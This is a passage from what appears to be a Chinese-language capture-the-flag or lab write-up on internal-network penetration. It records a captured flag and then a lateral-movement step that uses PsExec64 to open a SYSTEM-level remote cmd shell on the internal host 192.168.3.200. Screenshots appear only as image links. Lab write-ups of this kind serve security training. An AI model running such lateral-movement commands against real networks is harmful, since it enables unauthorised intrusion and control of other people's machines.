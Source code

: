 发现flag：

![image-20220622154148477553-1655884195493993.png](img/Untitled.assets/bbbe18b84993fa5ac2b3db8cc6f9c87f.png)

```
flag{B719-1F1D-4CE7-E019-2E6B-EDAC-CB35-87FB}
```

回到`Win10攻击机`，进入`C:\Users\Administrator\Desktop\工具\内网渗透\横向移动\PSTOOLS`目录，将`PsExec64.exe`文件上传：

![image-20220617140921818063-1655884196817570.png](img/Untitled.assets/cece60ef4d7afd7846bd0d38b11b0533.png)

执行命令：

```
cd Desktop

PsExec64.exe -accepteula \\192.168.3.200 -s cmd.exe
```

![image-20220617141042562456-1655884198135256.png](img/Untitled.assets/5ebfb286023ecd323d53ee81a7536537.png)
